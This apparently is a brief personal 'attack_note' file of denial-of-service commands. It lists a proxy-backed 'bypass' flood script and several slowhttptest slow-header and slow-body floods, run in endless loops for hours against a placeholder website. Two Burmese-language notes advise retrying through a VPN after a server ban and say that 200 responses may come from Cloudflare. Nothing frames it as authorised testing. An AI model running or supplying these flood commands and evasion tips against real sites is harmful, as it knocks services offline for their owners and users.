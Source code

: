 # attack_note

``` python3 start.py bypass https://?.com 5 101 socks5.txt 100 3600 true ```

``` slowhttptest -c 10239 -l 36000 -H -x 24 -p 3 -r 20000 -t GET -i 10 -u http://?.com ```

``` while true; do slowhttptest -H -c 10239 -r 15321 -l 86400 -u http://?.com -s 512 -t GET -v 3; done ```

``` while true; do slowhttptest -B -c 10239 -r 15321 -l 86400 -u http://?.com -s 4096 -t POST -f application/x-www-form-urlencoded -x 4 -v 2; done; ```


# Other notes

``` 403 အမြဲပြနေတာက Server က Ban လို့ -> VPNနဲ့ ပြန်စမ်းကြည့် ```

``` 200 တွေဆိုလည်း ပြန်စစ်ဖို့လို  Cloudflare ဆီက လာတာ ဖြစ်နိုင်```
